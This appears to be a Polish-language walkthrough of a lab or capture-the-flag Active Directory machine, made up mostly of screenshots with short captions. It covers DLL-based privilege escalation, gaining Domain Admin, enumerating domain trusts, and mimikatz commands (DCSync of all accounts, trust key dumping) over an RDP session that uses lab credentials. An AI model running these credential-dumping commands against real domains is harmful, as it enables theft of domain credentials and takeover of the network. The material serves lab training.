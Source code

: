 ![{9807BACE-2D5C-4C80-BEC2-12E9B7FD8445}](https://github.com/user-attachments/assets/70800069-99ef-4e24-ad4d-f569428e574b)

![{88C8F8FF-B7DF-4DCC-91BB-D49E3E7913E9}](https://github.com/user-attachments/assets/be489f38-0d10-4eee-81fa-6c44c4b10a49)

![{4FBB59D1-BF07-441F-A5AC-4EDB6877F333}](https://github.com/user-attachments/assets/7a66aa6e-540b-4d94-a47b-3a9f7af5a180)

- wrzuciłem i nic się nie dzieje. Możliwe, że coś przegapiłem :(

![{FBBE6206-742A-4B5A-9A1F-AA6508D36B9B}](https://github.com/user-attachments/assets/b61ce740-ee94-4090-ade9-6586d0b23f48)

dobra I AM BLIND i nie zauważyłem oczysitej dllki xd

![{1969259D-616E-46A1-8705-339D0B5276ED}](https://github.com/user-attachments/assets/ff13968a-7677-4071-85bd-27f1fe75d4b1)

![{144BED95-5342-4E07-A155-52163B972FC4}](https://github.com/user-attachments/assets/2e591245-7562-4c17-b950-656c6a0e49f5)

Dobra eskalacja na milion sposobów xD

![{CDDC604C-C854-4027-84DF-16BA82DA5930}](https://github.com/user-attachments/assets/7e4ca880-ef78-41f8-831d-ae671cd91329)

albo.. nie muszę eskalować xD

![{011F53D2-57EF-4A70-907B-591C6801A9D9}](https://github.com/user-attachments/assets/42425e5a-581b-499e-a783-89e9932f6a5e)

![{5D939401-BD55-4493-8537-CACFA8DE8DE6}](https://github.com/user-attachments/assets/bd80b390-bebe-4ac6-8d6f-07c9be779426)

dobra mamy DA w tej domenie.

![{79F4A06D-35A5-4D19-8DFC-D8A42B2BC8FA}](https://github.com/user-attachments/assets/76602176-f4cf-44ff-b16c-a2da25653b93)

trusty domenowe wygląda tak, ale to nie czytelne więc użyjemy trochę cmd
```
nltest.exe /trusted_domains
```



![{5FB00F25-5E32-4D09-A0BC-DE2DB6292860}](https://github.com/user-attachments/assets/2c68f242-fc2f-4708-be2e-653cb882c117)

Fajnie rzucić tam mimikatza i zrobić to przez GUI (tak malo redteamowo, ale to nie redteam xd)
```
xfreerdp /v:10.10.249.150 /u:bartek /p:'password1!' /drive:mimikatz

privilege::debug
lsadump::dcsync /domain:lab.trusted.vl /all

```

![{F2F8855B-067C-4CE6-A69B-3A60AF826B55}](https://github.com/user-attachments/assets/55a1a58e-477c-40b9-9f86-0ac1f3d4761d)

```
lsadump::trust /patch
```

![{92AC41AF-8CBE-4E8F-BF6B-C28755C193B4}](https://github.com/user-attachments/assets/65ec95d9-48bb-4c5f-8978-368712aa69a5)
